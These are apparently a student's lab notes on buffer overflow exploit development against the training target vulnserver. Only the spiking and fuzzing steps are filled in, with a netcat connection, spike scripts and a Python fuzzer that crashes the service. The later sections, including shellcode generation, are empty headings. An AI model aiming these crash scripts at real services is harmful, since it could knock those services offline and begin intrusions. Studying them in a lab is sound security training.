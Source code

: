 # Exploit Development

* Buffer Overflow - vulnerability in which data can be written which exceeds allocated space, so that we can overwrite data.

* Steps to conduct a buffer overflow:

  * [Spiking](#spiking)

  * [Fuzzing](#fuzzing)

  * [Finding the Offset](#finding-the-offset)

  * [Overwriting the EIP](#overwriting-the-eip)

  * [Finding Bad Characters](#finding-bad-characters)

  * [Finding the Right Module](#finding-the-right-module)

  * [Generating Shellcode](#generating-shellcode)

  * Root Access

## Spiking

* Initial setup is to attach the vulnserver application in Immunity Debugger, in running mode.

* We know the IP of our Windows machine and the vulnserver port, so we can connect in Kali machine using ```nc```.

```shell
nc -nv 192.168.30.139 9999
```

* For spiking, we can use a tool called ```generic_send_tcp```. We will try different random characters to break the program.

* We would do this with the help of a spike script.

```shell
#stats.spk
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```shell
#trun.spk
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```shell
generic_send_tcp
#shows syntax format

generic_send_tcp 192.168.30.139 9999 stats.spk 0 0

generic_send_tcp 192.168.30.139 9999 trun.spk 0 0
#this crashes the vulnserver due to buffer overflow
```

## Fuzzing

* Similar to spiking, we would send a bunch of characters at a specific command and try to break it. The difference is that we would attack a particular command in fuzzing.

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                payload = "TRUN /.:/" + buffer
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('192.168.30.139',9999))
                print("[+] Sending the payload\n" + str(len(buffer)))
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A"*100

        except:
                print("Fuzzing crashed at %s bytes" % (str(len(buffer))))
                sys.exit()
               
```

```shell
vim fuzzingscript.py

chmod +x fuzzingscript.py

./fuzzingscript.py
#around 2000-3000 bytes, Immunity Debugger crashes
#fuzzing gives us an idea about the limit
```

## Finding the Offset

## Overwriting the EIP

## Finding Bad Characters

## Finding the Right Module

## Generating Shellcode
